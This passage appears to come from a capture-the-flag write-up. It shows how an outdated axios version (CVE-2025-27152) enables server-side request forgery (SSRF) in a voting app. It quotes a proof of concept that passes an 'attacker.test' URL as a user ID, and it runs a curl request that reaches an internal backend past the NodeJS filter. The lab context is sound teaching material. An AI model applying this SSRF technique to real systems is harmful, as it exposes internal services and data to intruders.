 As NodeJS is our frontend, it filters the requests that go to Nginx via the path parsing. This is then sent to Nginx, where it is sent via `proxy_pass` to the backend, which is then parsed accordingly.

So, how do we get the `voted_for`?

## SSRF

A key detail lies in the `package.json` for the NodeJS app:
```json
"dependencies": {
    "axios": "1.8.1",
    "uWebSockets.js": "github:uNetworking/uWebSockets.js#v20.52.0"
}
```

Axios is outdated, and it turns out there is a CVE! [CVE-2025-27152](https://nvd.nist.gov/vuln/detail/CVE-2025-27152), with a [PoC](https://github.com/axios/axios/security/advisories/GHSA-jr5f-v2jv-69x6)!

This PoC looks very, *very* similar to how our Axios `client` is setup:

```js
import axios from "axios";

const internalAPIClient = axios.create({
  baseURL: "http://example.test/api/v1/users/",
  headers: {
    "X-API-KEY": "1234567890",
  },
});

// const userId = "123";
const userId = "http://attacker.test/";

await internalAPIClient.get(userId); // SSRF
```

Considering our requests are done with this format, can we try access a backend API directly?

```bash
$ curl 'http://3.105.27.130:8000/api/v2/http://v1.backend.wbc/candidates'
{"candidates":[{"id":1,"name":"Alyssa Chen","slogan":"Pragmatism, digital governance, economic modernization, unity","party":"The Centrist Union"},{"id":2,"name":"Comrade Elira Voss","slogan":"Class struggle, public ownership, radical equality, climate justice","party":"The People's Solidarity Front"},{"id":3,"name":"Governor Henrik Stahl","slogan":"Traditional values, law and order, economic liberalism, national pride","party":"The National Renewal Party"},{"id":4,"name":"Dr. Marcus Delane","slogan":"Social equity, sustainability, inclusive growth, democratic reform","party":"The Progressive Alliance"},{"id":5,"name":"Commander Rhea Kael","slogan":"Nationalism, cultural preservation, sovereignty, militarism","party":"The Freedonian Heritage League"}]}
```

Awesome! SSRF is working, but how does this help?

With this, we have bypassed the NodeJS frontend requiring a filtered match for this Nginx config:
```conf
location ~ /(.*)/(.*) {
    proxy_pass http://$1.backend.wbc/$2;
}
```
